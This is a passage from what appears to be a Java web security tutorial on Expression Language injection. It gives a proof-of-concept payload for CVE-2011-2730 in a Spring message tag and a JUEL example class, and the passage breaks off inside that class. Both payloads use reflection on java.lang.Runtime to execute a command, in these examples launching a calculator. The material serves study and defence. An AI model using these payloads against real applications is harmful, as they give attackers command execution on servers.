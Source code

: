 <div align=center><img src="./images/3.png"></div>

## CVE-2011-2730
The command execution of `PoC` is as follows:

```java
<spring:message text=
"${/"/".getClass().forName(/"java.lang.Runtime/").getMethod(/"getRuntime/",null).invoke(null,null).exec(/"calc/",null).toString()}">
</spring:message>
```

## JUEL
EL` was once part of `JSTL`, and then `EL` entered the JSP 2.0 standard. Now `EL API` has been detached into the package `javax.el`, and all dependencies on the core `JSP` class have been removed, that is, the packages `javax.el`, etc. that are now `JUEL` related `jar` packages.

[JUEL](http://juel.sourceforge.net/)(Java Unified Expression Language) is a lightweight and efficient implementation of unified expression language, with high performance, plug-in cache, small size, support for method calls and multi-parameter calls, and pluggable and pluggable features.

For example, the following code uses reflection to call the `Runtime` class method to implement command execution:

```xml
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-api</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-spi</artifactId>
    <version>2.2.7</version>
</dependency>
<dependency>
    <groupId>de.odysseus.juel</groupId>
    <artifactId>juel-impl</artifactId>
    <version>2.2.7</version>
</dependency>
```

```java
package h3rmek1t.javawebsecurity;

import de.odysseus.el.ExpressionFactoryImpl;
import de.odysseus.el.util.SimpleContext;

import javax.el.ExpressionFactory;
import javax.el.ValueExpression;

/**
 * @Author: H3rmesk1t
 * @Data: 2022/3/18 12:05 AM
 */
public class ElShell {

    public static void main(String[] args) {

        ExpressionFactory expressionFactory = new ExpressionFactoryImpl();
        SimpleContext simpleContext = new SimpleContext();
        String shell = "${''.getClass().forName('java.lang.Runtime').getMethod('exec',''.getC
lass()).invoke(''.getClass().forName('java.lang.Runtime').getMethod('getRuntime').invoke(null),'open -a Calculator')}";
```